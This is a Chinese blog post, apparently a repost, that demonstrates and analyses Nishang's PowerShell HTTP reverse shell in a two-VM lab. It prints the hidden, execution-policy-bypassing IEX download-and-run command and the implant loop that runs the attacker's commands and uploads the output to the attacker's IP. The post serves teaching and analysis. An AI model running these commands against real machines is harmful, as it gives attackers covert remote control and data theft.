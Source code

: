 > 原文链接: https://www.anquanke.com//post/id/186953 


# Powershell 进阶——基于Powershell的远控分析


                                阅读量   
                                **655480**
                            
                        |
                        
                                                            评论
                                <b>
                                    <a target="_blank">3</a>
                                </b>
                                                                                                                                    ![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)
                                                                                            



[![](https://p1.ssl.qhimg.com/t01dc4cad67f5b012a3.png)](https://p1.ssl.qhimg.com/t01dc4cad67f5b012a3.png)



## 前言

我是掌控安全学院的魔术手，这篇文章是对Powershell的远控进行分析。

之前写过一篇文章《badusb-轻松绕过防护拿下小姐姐的电脑》，其实那篇文章本打算写三个要点：思路、绕过和远控分析，但是因为篇幅太长，所以把远控分析放到这篇文章。



## 远控演示

先来个比较简单的远控，来自[Nishang](https://github.com/zkaq-mss/nishang)的反弹shell：Invoke-PoshRatHttp.ps1。这里为了演示方便，我用了两台win10的虚拟机，分别作为攻击机和靶机。<br>
准备工作：
<li>两台WIN10的虚拟机(Nishang需要的环境是Powershell 3.0以上)。<br>
攻击机：mss-192.168.1.237<br>
靶机：target-192.168.1.48</li>
1. 攻击机下载Nishang，Nishang是一款基于Powershell的渗透测试工具，里面集成了很多功能，比如下载、键盘记录、远控等脚本，我们这里只需要用他的基于HTTP的反弹shell：Invoke-PoshRatHttp.ps1，只下载这一个也行。
准备工作完成后，攻击机以管理员身份打开Powershell,输入：`. C:nishang-masterShellsInvoke-PoshRatHttp.ps1`。

注意 `.` 和后面的路径之间有个空格，`C:nishang-masterShellsInvoke-PoshRatHttp.ps1`是下载后脚本所在的路径。

输入完成后会爆出提示,输入`R`继续。

```
PS C:Windowssystem32&gt; . C:nishang-masterShellsInvoke-PoshRatHttp.ps1

安全警告
请只运行你信任的脚本。虽然来自 Internet 的脚本会有一定的用处，但此脚本可能会损坏你的计算机。如果你信任此脚本，请使用
Unblock-File cmdlet 允许运行该脚本，而不显示此警告消息。是否要运行 C:nishang-masterShellsInvoke-PoshRatHttp.ps1?
[D] 不运行(D)  [R] 运行一次(R)  [S] 暂停(S)  [?] 帮助 (默认值为“D”):
```

然后输入`Invoke-PoshRatHttp 192.168.1.237 3333`。

注意：`192.168.1.237`是攻击机的IP，`3333`是侦听的端口。输入完成后会显示下列内容：

```
PS C:Windowssystem32&gt; Invoke-PoshRatHttp 192.168.1.237 3333
Listening on 192.168.1.237:3333
Run the following command on the target:
powershell.exe -WindowStyle hidden -ExecutionPolicy Bypass -nologo -noprofile -c IEX ((New-Object Net.WebClient).DownloadString('http://192.168.1.237:3333/connect'))
```

接下来只需将`powershell.exe -WindowStyle hidden -ExecutionPolicy Bypass -nologo -noprofile -c IEX ((New-Object Net.WebClient).DownloadString('http://192.168.1.237:3333/connect'))`在靶机上运行即可。注意，建议将这串代码先放到编辑器里把一些回车去掉，否则容易出问题。<br>
靶机执行后会得到如下回显：

```
PS 192.168.1.48:50330&gt;:
```

输入`exit`退出。

整体流程如图：

[![](https://raw.githubusercontent.com/zkaq-mss/shell/master/1.png)](https://raw.githubusercontent.com/zkaq-mss/shell/master/1.png)



## 远控分析

远控分析分成两个部分：
- 第一部分是建立连接，包括生成payload和靶机执行后建立连接的过程。
- 第二部分是命令执行，是你攻击机执行指令并返回的过程。
### <a class="reference-link" name="%E5%BB%BA%E7%AB%8B%E8%BF%9E%E6%8E%A5"></a>建立连接

首先通过wireshark看看整个过程发生了什么。

打开wireshark监听，因为这是一个基于HTTP的反弹shell，所以只需要抓取两台机器通信中的HTTP包，抓取结果如下图。

[![](https://raw.githubusercontent.com/zkaq-mss/shell/master/2.png)](https://raw.githubusercontent.com/zkaq-mss/shell/master/2.png)

从图中可以看出，靶机执行payload之后，靶机向攻击机发送了第一次请求，追踪http流后发现内容如图:

[![](https://raw.githubusercontent.com/zkaq-mss/shell/master/3.png)](https://raw.githubusercontent.com/zkaq-mss/shell/master/3.png)

从图中分析可知，靶机发出HTTP请求`http://192.168.1.237:3333/connect`,攻击机返回了下列内容：

```
$s = "http://192.168.1.237:3333/rat"
$w = New-Object Net.WebClient 
while($true)
`{`
    [System.Net.ServicePointManager]::ServerCertificateValidationCallback = `{`$true`}`
    $r = $w.DownloadString($s)
    while($r) 
    `{`
        $o = invoke-expression $r | out-string 
        $w.UploadString($s, $o)    
        break
    `}`
`}`
```

这个内容就是远控的被控端的内容。

先对这个过程进行分析：
<li>攻击机执行`Invoke-PoshRatHttp.ps1`脚本，打开该脚本，在第35-37行定义了两个位置参数`IPAddress`和`port`,也就是我们执行时输入的ip和侦听的端口。<br>[![](https://raw.githubusercontent.com/zkaq-mss/shell/master/4.png)](https://raw.githubusercontent.com/zkaq-mss/shell/master/4.png)
</li>
<li>在第66生成了`System.Net.HttpListener`,这是一个基于http的侦听器；第71行创建了一个防火墙规则，第70行是为了防止该规则已存在，所以先删除它，防止出现问题；第73行表示侦听器开始工作；第74-76行是输出提醒内容和payload。<br>[![](https://raw.githubusercontent.com/zkaq-mss/shell/master/5.png)](https://raw.githubusercontent.com/zkaq-mss/shell/master/5.png)
</li>
<li>执行payload：powershell.exe -WindowStyle hidden -ExecutionPolicy Bypass -nologo -noprofile -c IEX ((New-Object Net.WebClient).DownloadString(‘[http://192.168.1.237:3333/connect](http://192.168.1.237:3333/connect)‘))<br>
这个payload的大意就是模拟成一个web客户端去下载文件`http://192.168.1.237:3333/connect`,然后执行这个文件。这就是监听看到的第一个数据包，由靶机发起。</li>
<li>攻击机收到请求后，对请求的内容进行分析，在脚本的第85行有一个判断，`if ($request.Url -match '/connect$' -and ($request.HttpMethod -eq "GET"))`意思是如果收到一个url里有`connect`的GET请求，就执行下面的指令，也就是将被控端发送个靶机。这是监听看到的第二个包，由攻击机发送给靶机。<br>[![](https://raw.githubusercontent.com/zkaq-mss/shell/master/6-1.png)](https://raw.githubusercontent.com/zkaq-mss/shell/master/6-1.png)
</li>
<li>靶机收到数据包后，执行其功能:第91行生成一个web客户端，然后通过这个客户端去请求`http://192.168.1.237:3333/rat`的内容。这就是图中的第三个数据包，由靶机发送给攻击机。<br><h3 name="h3-4" id="h3-4">
<a class="reference-link" name="%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C"></a>命令执行</h3>
<p>攻击机执行`whoami`,使用wireshark监听，结果如图:<br>[![](https://raw.githubusercontent.com/zkaq-mss/shell/master/7.png)](https://raw.githubusercontent.com/zkaq-mss/shell/master/7.png)追踪http流结果如图：<br>[![](https://raw.githubusercontent.com/zkaq-mss/shell/master/8.png)](https://raw.githubusercontent.com/zkaq-mss/shell/master/8.png)从中可以看出，攻击机将指令`whoami`发送给靶机，靶机执行后发送给攻击机。<br>
接下来对这个过程进行分析：</p>
</li>
1. 攻击机输入指令`whoami`,脚本将指令传递给 `$message`。
1. 因为第一步的第三个包是请求`/rat`,根据脚本的第109行可知，接下来将执行110-120行的内容，其中第114行是对输入的指令做出分析，如果输入的指令是`exit`,那么将退出侦听。<br>[![](https://raw.githubusercontent.com/zkaq-mss/shell/master/9-1.png)](https://raw.githubusercontent.com/zkaq-mss/shell/master/9-1.png)如果输入的指令不是`exit`,那么程序继续执行，在第160-167行，将指令处理后发送给靶机。<br>[![](https://raw.githubusercontent.com/zkaq-mss/shell/master/10.png)](https://raw.githubusercontent.com/zkaq-mss/shell/master/10.png)这就是第一个数据包。
1. 靶机收到后，将指令`whoami`传递给变量`$r`,然后由`invoke-expression`执行指令，将结果传递给变量`$o`然后上传给靶机，靶机处理后显示出来。
上面就是对整个过程的分析，最后放出一张完整的图。

[![](https://raw.githubusercontent.com/zkaq-mss/shell/master/11.png)](https://raw.githubusercontent.com/zkaq-mss/shell/master/11.png)
